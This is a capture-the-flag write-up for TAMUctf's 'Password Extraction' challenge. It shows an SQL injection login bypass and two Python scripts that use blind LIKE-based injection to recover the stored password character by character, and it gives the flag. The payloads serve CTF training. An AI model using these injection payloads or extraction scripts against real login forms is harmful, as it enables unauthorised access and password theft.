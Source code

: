 # Password Extraction

## Description

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?
> 
> http://passwordextraction.tamuctf.com
> 
> You do not need to use brute force for this challenge.

The website is a simple login form.

## Solution

The simple SQL injection works: `username: admin`, `password: x' OR '1'='1`. We can log in, but we get the message:
```
You've successfully authorized, but that doesn't get you the password.
```

So let's do a blind SQL injection: we want to guess the password character by character using injections of the type `x' OR password LIKE gigem{knownpassword%`. Trying with `gigem{` at the beginning, this works, so let's script it.

First let's retrieve the characters used in password:

```python
import requests

url = 'http://passwordextraction.tamuctf.com/login.php'
post_data = {'username': 'admin', 'password': "x' or '1'='1"}

valid_char = []

for i in range(33,127):
    c = chr(i)
    # Escape special chars
    if c in ',&?{}()[]-;~|$!>*%_' or i == 92:
        c = chr(92) + c
    post_data['password'] = "' OR password LIKE '%" + c + "%"
    print(post_data)
    x = requests.post(url, data = post_data)
    print(x.text)
    if 'successfully' in x.text:
        valid_char.append(c)
print(valid_char)
```

Then we perform the actual search

```python
while(True):
    for c in '01STYcdeghimoprstu':
        post_data['password'] = "' OR password LIKE '%" + valid + c + "%"
        x = requests.post(url, data = post_data)
        if 'successfully' in x.text:
            valid = valid + c
            print(valid)
            break
```

Flag: `gigem{h0peYouScr1ptedTh1s}`